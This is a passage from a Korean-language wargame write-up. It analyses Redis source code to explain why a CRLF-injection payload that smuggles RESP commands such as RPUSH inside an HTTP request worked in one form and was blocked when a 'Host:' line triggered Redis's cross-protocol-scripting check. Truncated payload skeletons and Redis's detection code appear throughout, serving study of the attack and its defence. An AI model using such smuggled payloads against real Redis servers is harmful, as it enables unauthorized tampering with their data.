                c->reqtype = PROTO_REQ_INLINE; // -> Inline 프로토콜
            }
        }

        if (c->reqtype == PROTO_REQ_INLINE) {
            if (processInlineBuffer(c) != C_OK) break;
        } else if (c->reqtype == PROTO_REQ_MULTIBULK) {
            if (processMultibulkBuffer(c) != C_OK) break;
        } else {
            serverPanic("Unknown request type");
        }
    // ...
    }
}
```

Redis 는 받은 TCP payload 를 내부 쿼리 버퍼에서 순회하면서 `(1) *로 시작하는 RESP 프로토콜로 처리할지`, `(2) pre-defined commands (e.g., PING, MONITOR) 이 바로 나오는 Inline 프로토콜로 처리할지`를 구분합니다.

```plaintext caption="Opsmon 문제의 공격에서 redis 에 전달되는 TCP payload"
HTTP/1.1\r\n <- (2) Inline 프로토콜로 처리하자!
User-Agent: OpsMon/1.0\r\n
Connection: keep-alive\r\n
\r\n
*3\r\n
$5\r\n
RPUSH\r\n
...
```

이번 문제의 공격 상황에서는 TCP payload 가 `*`로 시작하지 않으므로 `(2) Inline 프로토콜로서의 처리과정`을 거치면서 유효한 Inline 프로토콜인지, 실행을 어떻게 할지 등을 체크합니다.

그 중에 몇 가지만 살펴보면:

- 체크 1: 간단한 공격 탐지 ([server.c#L3897-L3901](https://github.com/redis/redis/blob/7.4.7/src/server.c#L3897-L3901), [networking.c#L3692-L3716](https://github.com/redis/redis/blob/7.4.7/src/networking.c#L3692-L3716))

  ```c file="/src/server.c"
  /* Handle possible security attacks. */
  if (!strcasecmp(c->argv[0]->ptr,"host:") || !strcasecmp(c->argv[0]->ptr,"post")) {
      securityWarningCommand(c);
      return C_ERR;
  }
  ```

  ```c file="/src/networking.c"
  /* This callback is bound to POST and "Host:" command names. Those are not
  * really commands, but are used in security attacks in order to talk to
  * Redis instances via HTTP, with a technique called "cross protocol scripting"
  * which exploits the fact that services like Redis will discard invalid
  * HTTP headers and will process what follows.
  *
  * As a protection against this attack, Redis will terminate the connection
  * when a POST or "Host:" header is seen, and will log the event from
  * time to time (to avoid creating a DOS as a result of too many logs). */
  void securityWarningCommand(client *c) {
      // ...
      serverLog(LL_WARNING,"Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host:  commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to  compromise your Redis instance. Connection aborted.");
      //...
      freeClientAsync(c);
  }
  ```

  Redis 는 주어진 command 가 `Host:` 이거나 `POST` 이면 "cross protocol scripting" 이라는 공격으로 판단하고 `C_ERR` 를 반환하며 client 와의 연결을 중단합니다. 이 때 `strcasecmp` 를 사용하기 때문에 대소문자 구별은 없습니다. (e.g., `hOsT:` 도 차단됩니다.)

  [부록 1](#부록-1-실패-기록---rpush-resp-가-redis-에-전달이-안-되는-이슈)에서의 실패의 원인이었던 로직이기도 합니다.

- 체크 2: 주어진 command 의 존재 여부 및 인자 갯수 체크 ([server.c#L3912-L3926](https://github.com/redis/redis/blob/7.4.7/src/server.c#L3912-L3926))

  ```c file="/src/server.c"
  /* Now lookup the command and check ASAP about trivial error conditions
   * such as wrong arity, bad command name and so forth.
   * In case we are reprocessing a command after it was blocked,
   * we do not have to repeat the same checks */
  if (!client_reprocessing_command) {
    c->cmd = c->lastcmd = c->realcmd = lookupCommand(c->argv,c->argc);
    sds err;
    if (!commandCheckExistence(c, &err)) {
        rejectCommandSds(c, err);
        return C_OK;
    }
    if (!commandCheckArity(c, &err)) {
        rejectCommandSds(c, err);
        return C_OK;
    }
    // ...
  }
  ```

  Redis 는 `lookupCommand()`, `commandCheckExistence()`, `commandCheckArity()` 를 통해 `server.commands` 라는 dictionary 와 주어진 command 를 비교합니다.

  `server.commands` 는 [`initServerConfig()`](https://github.com/redis/redis/blob/7.4.7/src/server.c#L2152-L2154) 에서 호출하는 `populateCommandTable()` 가 `redisCommandTable` 을 참고해가며 업데이트합니다.

  결론적으로 어떤 명령들이 유효한 redis command 인지는 이 [`redisCommandTable`](https://github.com/redis/redis/blob/7.4.7/src/commands.def#L10965) 를 확인하면 됩니다.

  ```c file="/src/commands.def#L10965" caption="redisCommandTable 에 정의된 inline 명령어 목록"
  /* Main command table */
  struct COMMAND_STRUCT redisCommandTable[] = {
    // ...
    /* connection */
    {MAKE_CMD("auth","Authenticates the connection.","O(N) where N is the number of passwords defined for the user","1.0.0",CMD_DOC_NONE,NULL,NULL,"connection",COMMAND_GROUP_CONNECTION,AUTH_History,1,AUTH_Tips,0,authCommand,-2,CMD_NOSCRIPT|CMD_LOADING|CMD_STALE|CMD_FAST|CMD_NO_AUTH|CMD_SENTINEL|CMD_ALLOW_BUSY,ACL_CATEGORY_CONNECTION,AUTH_Keyspecs,0,NULL,2),.args=AUTH_Args},
    {MAKE_CMD("client","A container for client connection commands.","Depends on subcommand.","2.4.0",CMD_DOC_NONE,NULL,NULL,"connection",COMMAND_GROUP_CONNECTION,CLIENT_History,0,CLIENT_Tips,0,NULL,-2,CMD_SENTINEL,0,CLIENT_Keyspecs,0,NULL,0),.subcommands=CLIENT_Subcommands},
    {MAKE_CMD("echo","Returns the given string.","O(1)","1.0.0",CMD_DOC_NONE,NULL,NULL,"connection",COMMAND_GROUP_CONNECTION,ECHO_History,0,ECHO_Tips,0,echoCommand,2,CMD_LOADING|CMD_STALE|CMD_FAST,ACL_CATEGORY_CONNECTION,ECHO_Keyspecs,0,NULL,1),.args=ECHO_Args},
    {MAKE_CMD("hello","Handshakes with the Redis server.","O(1)","6.0.0",CMD_DOC_NONE,NULL,NULL,"connection",COMMAND_GROUP_CONNECTION,HELLO_History,1,HELLO_Tips,0,helloCommand,-1,CMD_NOSCRIPT|CMD_LOADING|CMD_STALE|CMD_FAST|CMD_NO_AUTH|CMD_SENTINEL|CMD_ALLOW_BUSY,ACL_CATEGORY_CONNECTION,HELLO_Keyspecs,0,NULL,1),.args=HELLO_Args},
    {MAKE_CMD("ping","Returns the server's liveliness response.","O(1)","1.0.0",CMD_DOC_NONE,NULL,NULL,"connection",COMMAND_GROUP_CONNECTION,PING_History,0,PING_Tips,2,pingCommand,-1,CMD_FAST|CMD_SENTINEL,ACL_CATEGORY_CONNECTION,PING_Keyspecs,0,NULL,1),.args=PING_Args},
    {MAKE_CMD("quit","Closes the connection.","O(1)","1.0.0",CMD_DOC_DEPRECATED,"just closing the connection","7.2.0","connection",COMMAND_GROUP_CONNECTION,QUIT_History,0,QUIT_Tips,0,quitCommand,-1,CMD_ALLOW_BUSY|CMD_NOSCRIPT|CMD_LOADING|CMD_STALE|CMD_FAST|CMD_NO_AUTH,ACL_CATEGORY_CONNECTION,QUIT_Keyspecs,0,NULL,0)},
    // ...
    /* generic */
    // ...
  }
  ```


그 밖에는 서버 설정에 따라 보호된 명령인지, 권한에 따라 실행 가능 여부가 다른 명령인지 등을 체크합니다.

```c file="/src/server.c" caption="보호된 명령과 인증이 필요한 명령을 검증하는 redis 로직"
/* Check if the command is marked as protected and the relevant configuration allows it */
if (c->cmd->flags & CMD_PROTECTED) {
    if ((c->cmd->proc == debugCommand && !allowProtectedAction(server.enable_debug_cmd, c)) ||
        (c->cmd->proc == moduleCommand && !allowProtectedAction(server.enable_module_cmd, c)))
    {
        rejectCommandFormat(c,"%s command not allowed. If the %s option is set to \"local\", "
                                "you can run it from a local connection, otherwise you need to set this option "
                                "in the configuration file, and then restart the server.",
                                c->cmd->proc == debugCommand ? "DEBUG" : "MODULE",
                                c->cmd->proc == debugCommand ? "enable-debug-command" : "enable-module-command");
        return C_OK;

    }
}
// ...
if (authRequired(c)) {
    /* AUTH and HELLO and no auth commands are valid even in
        * non-authenticated state. */
    if (!(c->cmd->flags & CMD_NO_AUTH)) {
        rejectCommand(c,shared.noautherr);
        return C_OK;
    }
}
// ...
```

---

### 예시와 함께 이해하기

이러한 redis 의 command processing 을 참고해서, Opsmon 문제에서 사용한 CRLF injection payload 를 살펴봅시다.

(1) 우선, RESP payload 가 성공적으로 실행된 아래 payload 의 경우는 어떨까요?

```
HEAD / HTTP/1.1\r\n
*3\r\n
$5\r\n
RPUSH\r\n
...
```

- Line 1: `HEAD / HTTP/1.1\r\n`

  [`redisCommandTable`](https://github.com/redis/redis/blob/7.4.7/src/commands.def#L10965) 을 보면 HEAD 라는 명령이 없습니다. 그러면 `processCommand()` 는 `rejectCommandSds()` 를 호출하고 `C_OK` 를 반환합니다.

  `C_ERR` 를 반환하지 않기 때문에, HEAD 가 있는 줄은 스킵되고 다음 줄에 있는 명령들의 처리로 넘어갑니다.

- Line 2: `*3\r\n$5\r\nRPUSH\r\n...` ...

  이는 유효한 RESP 프로토콜이기 때문에 정상적으로 처리됩니다.

(2) 반면, RESP payload 가 실행되지 않았던 아래 payload 의 경우는 어떨까요?

```
HEAD / HTTP/1.1\r\n
Host: redis\r\n
User-Agent: OpsMon/1.0\r\n
Connection: keep-alive\r\n
\r\n
*3\r\n
$5\r\n
RPUSH\r\n
...
```

- Line 1: `HEAD / HTTP/1.1\r\n`

  위에서 확인했듯이 HEAD 명령이 존재하지 않기 때문에 스킵되고 다음 줄로 넘어갑니다.

- Line 2: `Host: redis`

  앞에서 언급한 '체크 1: [간단한 공격 탐지](https://github.com/redis/redis/blob/7.4.7/src/server.c#L3897-L3901)' 에 의해, redis 가 `Host:` 를 감지하고 `C_ERR` 를 반환하며 client 와의 연결이 종료됩니다.

  ```c file="/src/server.c"
  /* Handle possible security attacks. */
  if (!strcasecmp(c->argv[0]->ptr,"host:") || !strcasecmp(c->argv[0]->ptr,"post")) {
      securityWarningCommand(c);
      return C_ERR;
  }
  ```

- 그 결과 RESP payload 가 있는 줄이 아예 처리되지 않아 공격이 실패했던 것입니다.

이렇게 redis server 의 TCP payload 핸들링 방식을 간단하게나마 살펴보았습니다.

## 마치며

워게임 문제 풀이 자체는 간단하지만, 그 풀이에 도달하기까지는 예상치 못한 여러 이슈를 겪게 되기 마련입니다. 그러한 이슈에 좌절하지 않고 그 원인을 즐겁게 파고들어가며 새로운 지식(e.g., Redis 소스코드 분석)을 얻어가는 것 또한 워게임의 매력인 것 같습니다.

긴 글 읽어주셔서 감사합니다.